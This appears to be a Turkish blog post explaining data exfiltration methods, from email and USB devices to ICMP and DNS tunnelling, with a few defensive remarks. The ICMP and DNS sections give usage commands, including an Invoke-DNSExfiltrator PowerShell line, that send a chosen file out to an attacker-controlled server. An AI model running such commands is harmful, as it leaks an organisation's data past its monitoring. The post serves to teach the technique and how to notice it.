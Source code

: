 Title: Data Exfiltration
Date: 2018-11-11 13:48
Tags: data exfil, veri kaçırma, veri kaçırma yöntemleri, data exfiltration türkçe, veri güvenliği
Category: siber güvenlik
Slug: data-exfiltration
Authors: 0x656e





## Data Exfiltration Nedir?

Bir kişi veya grubun yetkisiz bir biçimde bir veriyi başka bir bilgisayar yada sunucuya kopyalaması, transfer etmesi anlamına gelir. Data extrusion(veri çıkarma), data exportation(veri ihracati!), data theft(veri hırsızlığı) olarak da bilinir.

Örnek vermek gerekirse bir banka çalışanının bankaya ait verileri bir USB(!) içerisinde dışarıya çıkartması bir suçtur. Fakat işler her zaman bu şekilde USB gibi şeyler ile de olmamaktadır. Bazen veri kaçırmayı tanımlamak çok zor hale gelebilmektedir. Farklı yöntemleri vardır.

Bu yazıda sizlere yöntemlerinden kısaca bahsedeceğim.



## Basit Yöntemler 

### E-Posta
Aklımıza gelebilecek en kolay çözüm bir veriyi kaçırmak istersek bunu eposta ile gönderebilir ve karşı tarafta indirerek işlem tamamlanmış olabilir. Fakat burada engelleme adına Email gatewayler karşımıza çıkmaktadır. Email gatewayler temel olarak mail içerisinde zararlı var mı diye kontrol eder fakat içerisinde data kaçırmaya karşı modüllerde bulunmaktadır. Tabi burada Titus gibi yazılımlar ile birlikte datanın sınıflandırması, arkaplanda bunların loglarının tutulması da bir engel olarak görülebilir.

`Parola korumalı bir sıkıştırılmış dosyayı nasıl farkedeceklerini bilmiyorum. Ama farkedemeyeceklerini düşünüyorum.`


### Cihazlara Yüklemek

Günümüzde yanımızda bir çok akıllı cihaz taşıyoruz. Bu kısımda kurum içerisinde ki bir datayı kaçırmak isteyen kişinin telefonuna, taşınabilir diskine, laptop kullanılıyorsa bluetooth ile telefonuna atması işten bile değildir. Hatta günümüzde web.whatsapp gibi bir arayüz ile whatsapp üzerinden bile kaçırılabilir.

`Bu kısım sıkı bir takip istemekte birlikte nasıl engellenebileceği konusunda bir yorumum dahi bulunmamaktadır.`

## Teknik Yöntemler

Bu kısımda data exfiltration kısmında karşımıza bir çok yöntem çıkmakta tabi ki teknik zorlukları da bulunmaktadır. 


### FTP&SFTP
Aslında çokta teknik olmayan bir konudur. Uzaktaki bir sunucuya FTP&SFTP servis kurulur ve veriler bu servisler aracılığı ile dışarıya çıkartılabilir.

Önlemek için giden trafiği inceleyecek güvenlik cihazları/yazılımları yeterli olacaktır. Trafik içerisinde gönderilen trafik boyutuda önemli bir faktördür tabi ki. Zaten çoğu güvenlik ürünü anomaly'i farkedecektir.

### HTTP Methodları ile Göndermek

Bu kısımda çok teknik bir konu değildir aslında. Basit bir Web Servis yazıp bu web servise bir form koyup buradan gelecek tüm verinin arkaplanda ayrı ayrı yazıldığını düşünürseniz gayet kolaydır. Hatta çıkartılacak veriyi binary code çevirip basarsanız ve arkaplanda tekrar eski haline çevirirseniz ihtiyaçlarınızı karşılayacaktır.

## 

**Asıl Bahsetmek İstediğim Kısıma Gelelim**

Bu kısımdan önceki yazılar tamamen genel anlamda nasıl olduğundan bahsetmek amacıylaydı.



Bu kısımda daha önce karşıma çıkmış olan 2 adet yöntemden bahsedeceğim, zaten yazının ana konusu bu 2 yöntemdir.


### ICMP Data Exfiltration

ICMP protokolü kullanılarak yapılan yöntemdir. Yani genel anlamda bizim bildiğimiz ping komutu ile birlikte yapılan işlemlerdir. ICMP protokolü içerisinde çok fazla data veya bilgi barındırmaz basit yapıda bir protokoldür bu sebeple data exfiltration işlemleri yavaş ilerleyecektir. Kişiler ICMP Echo Requestler içerisinde göndermek istedikleri datanın binary halini atarak dışarıya veri sızdırabilmektedirler.

ICMP Paketlerinin boyutu 74 bytedır. Data exfiltration kısmında genellikle 100 byte ile 542 byte arasını geçmemektedir.

`Engellemek adına yeni nesil tüm cihazlar bozuk ICMP paketlerini tespit edebilecek seviyededirler.`

#### Nasıl Yapılır?

[ICMPExfil](https://github.com/martinoj2009/ICMPExfil)

Yukarıda vermiş olduğum linkteki araç ile ping.py ve server.py dosyaları kullanılarak bu işlem gerçekleştirilebilir.

`ping.py --ip PINGATACAGINIZSERVER --asciiFile göndereceğinizdosya`


### DNS Data Exfiltration

DNS üzerinden data exfiltration yapmaya yarar. DNS'in çalışma mantığını kullanır. 
Nedir DNS'in çalışma mantığı?

Gitmek istediğimiz bir domain'e ait olan IP'yi dünya üzerindeki veya bizim kendi networkümüzde bulunan bir DNS sunucuya sorar. DNS sunucuda kendisinde var ise bu domaine ait olan IP'yi geri döndürür ve site girmiş olursunuz, eğer yoksa sormuş olduğunuz dns servisi bir üst makama gidip root dns sunucularına sorar ve size de bu şekilde elçilik yapmış olur.

Bu kısımda data exfiltration için DNS sorgusu içerisinde ki CNAME ve TXT kayıtları kullanılmaktadır. Bu sayede paket içerisine yapısal olmayan bir çok veri koyulabilmektedir. 


#### Nasıl Yapılır

[DNS Exfiltrator](https://github.com/Arno0x/DNSExfiltrator)

Bu kısımda kendinize ait bir sunucunuz olması gerekmektedir. Yukarıda vermiş olduğum link içerisinden dnsefiltrator.py dosyasını belirli argümanlarla çalıştırmanız gerekmektedir. Yazılım defaultta RC4 şifreleme yapmaktadır bu sebeple argüman olarak vermiş olduğunuz parola oldukça önemlidir.

Server üzerinde 
`dnsexfiltrator.py -d domain -p PAROLA`


Client üzerinde
```
c:\DNSExfiltrator> powershell
PS c:\DNSExfiltrator> Import-Module .\Invoke-DNSExfiltrator.ps1
PS c:\DNSExfiltrator> Invoke-DNSExfiltrator -i inputFile -d mydomain.com -p password -s my.dns.server.com -t 500

```

* -i argümanı ile göndermek istediğiniz dosya 
* -d argümanı ile server kısmında belirlemiş olduğunuz domainismi 
* -p kısmı ile server kısmında belirtmiş olduğunuz encrytion için kullanılacak parola 
* -s kısmında ise sunucunuzun IP adresi 
* -t kısmında ise throttleTime yani DNS sorguları arasında geçecek süreyi girmeniz gerekmektedir.(MS)

Dilerseniz -h parametresini kullanarak Google, CF gibi HTTP üzerinden DNS servislerinide kullanabilirsiniz.


Yazıyı burada sonlandırıyorum. Daha detaylı bilgilere ulaşmak veya daha fazla teknik okumak/görmek isterseniz aşağıdaki linki kullanabilirsiniz.

[Data Exfiltration Techniques](https://www.pentestpartners.com/security-blog/data-exfiltration-techniques/)



**Burada anlatılanlar hakkında yaptığınız,yapacağınız tüm işlemlerden sizler sorumlusunuz. Mesuliyet kabul edilmemektedir.**

**Bu yazı tamamen bilgilendirme amaçlıdır.**

Her yazının sonunda olduğu gibi klasik bu yazının şarkısını paylaşıyorum. 

[![Beth Hart - Caught Out In The Rain](https://img.youtube.com/vi/DuDhiHSksaA/0.jpg)](https://www.youtube.com/watch?v=DuDhiHSksaA)